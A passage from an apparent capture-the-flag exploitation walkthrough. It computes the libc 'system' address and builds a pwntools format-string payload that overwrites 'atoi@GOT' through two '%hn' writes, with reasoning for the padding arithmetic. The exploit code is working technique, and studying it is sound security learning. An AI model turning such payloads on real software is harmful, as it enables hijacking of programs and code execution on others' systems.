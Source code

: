 ## Stage 4 — compute `system` address

```py
system_addr = glibc_base_addr + elf.libc.symbols['system']
```

You now have a 64-bit address for `system`. This is the value we want `atoi@GOT` to point to.

---

## Stage 5 — overwrite `atoi@GOT` with `system` using two `%hn` writes

### Why two writes?

* On x86\_64 `system_addr` is 8 bytes. `%hn` writes 2 bytes at a time, so using two `%hn` writes overwrites the **low 4 bytes** (lowest 32 bits). Usually, on Linux the top bytes of libc pointers are constant (`0x00007f...`) so modifying the low 4 bytes is enough to redirect the call. (If you need full 8 bytes, use 4 `%hn` writes or 8 `%hhn` writes.)

### Code:

```py
low  = system_addr & 0xffff                # low 16 bits
high = (system_addr >> 16) & 0xffff        # next 16 bits

first  = (low - bytes_on_stack - 2) & 0xffff
second = (high - low) & 0xffff

payload_a  = b'1234567.' + p64(atoi_got) + p64(atoi_got + 2)
payload_b  = f'1.%{first}c'.encode() + b'%11$hn'
payload_b += f'%{second}c'.encode() + b'%12$hn'

p.sendlineafter(b'A: ', payload_a)
p.sendlineafter(b'B: ', payload_b)
```

Detailed reasoning:

* `payload_a` pushes two addresses on the stack: `atoi_got` (target for the low 2 bytes) and `atoi_got+2` (target for the next 2 bytes). They will occupy consecutive argument slots (e.g. `%11` and `%12`) when `printf` runs.
* `first` is the number of characters we must print so that the first `%11$hn` writes `low`. We subtract `bytes_on_stack` and `2` to compensate for characters already printed (the exact subtraction depends on your header).
* After the first write, the printed-character counter equals `low`. To make the counter equal `high` for the second write, we pad by `second = (high - low) & 0xffff`, so that after adding `second` characters the total printed count becomes `high`, and `%12$hn` writes that into `atoi_got+2`.
* We use `%hn` so **each write writes exactly 2 bytes**.

**Order matters:** writing low half first then high half is OK as long as you compute `second = (high - low) & 0xffff`. If `high < low` (wrap), `second` will wrap around and produce a huge pad; in that case it’s often better to write the high half first, then low. Defensive code checks or swapping order reduces huge `%<N>c` usage.

---